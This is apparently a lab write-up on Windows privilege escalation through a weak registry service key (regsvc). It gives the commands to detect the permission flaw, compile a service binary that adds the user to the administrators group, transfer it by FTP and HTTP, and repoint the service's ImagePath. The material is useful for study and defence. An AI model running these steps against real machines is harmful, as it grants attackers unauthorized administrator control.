 #Windows #PrivEsc #Registry #SimpleHTTPServer #msiexec #MSFvenom #metasploit #msfconsole #meterpreter #regsvc #pyftpdlib #SimpleHTTPServer 

﻿## ﻿﻿﻿﻿**Detection**

Windows VM

1. Open PowerShell prompt and type: `Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl`
2. Notice that the output suggests that user belong to “`NT AUTHORITY\INTERACTIVE`” has “`FullContol`” permission over the registry key.

**Exploitation**

Windows VM

1. Copy ‘`C:\Users\User\Desktop\Tools\Source\windows_service.c`’ to the Kali VM.
	- Create a python ftp server on LHOST using `pyftpdlib`
```
┌──(root㉿kali)-[~/Downloads]
└─# python3 -m pyftpdlib -p 21 --write       
/usr/lib/python3/dist-packages/pyftpdlib/authorizers.py:108: RuntimeWarning: write permissions assigned to anonymous user.
  self._check_permissions(username, perm)
[I 2024-10-07 20:22:14] concurrency model: async
[I 2024-10-07 20:22:14] masquerade (NAT) address: None
[I 2024-10-07 20:22:14] passive ports: None
[I 2024-10-07 20:22:14] >>> starting FTP server on 0.0.0.0:21, pid=659525 <<<
```
- Transfer file from RHOST to LHOST - with `cmd.exe` in directory of file to transfer to LHOST:
```
... [Windows RHOST as user]

> ftp [LHOST IP - Kali VM]

ftp> anonymous:anonymous

ftp> put windows_service.c

... [Kali VM - ftp server] ...

[I 2024-10-07 20:25:59] 10.10.59.8:49231-[anonymous] USER 'anonymous' logged in.
[I 2024-10-07 20:26:07] 10.10.59.8:49231-[anonymous] STOR /root/Downloads/windows_service.c completed=1 bytes=2043 seconds=0.497
```

Kali VM

1. Open `windows_service.c` in a text editor and replace the command used by the `system()` function to: `cmd.exe /k net localgroup administrators user /add`  
2. Exit the text editor and compile the file by typing the following in the command prompt: `x86_64-w64-mingw32-gcc windows_service.c -o x.exe`
		*(NOTE: if this is not installed, use '`sudo apt install gcc-mingw-w64`')* 
3. Copy the generated file `x.exe`, to the Windows VM.
- Using same `pyftpdlib`  and using `get` gave me error 193. But when I used `SimpleHTTPServer`, it transferred and the privesc worked!
```
┌──(root㉿kali)-[~/Downloads]
└─# python -m SimpleHTTPServer 80 
Serving HTTP on 0.0.0.0 port 80 ...
10.10.59.8 - - [07/Oct/2024 20:40:41] "GET / HTTP/1.1" 200 -
10.10.59.8 - - [07/Oct/2024 20:40:42] code 404, message File not found
10.10.59.8 - - [07/Oct/2024 20:40:42] "GET /favicon.ico HTTP/1.1" 404 -
10.10.59.8 - - [07/Oct/2024 20:40:46] "GET /x.exe HTTP/1.1" 200 -
```
- Navigate to LHOST IP from RHOST browser to download the `x.exe`

Windows VM

1. Place `x.exe` in ‘`C:\Temp`’. 
2. Open command prompt at type: `reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f`  
3. In the command prompt type: `sc start regsvc`  
4. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: `net localgroup administrators`

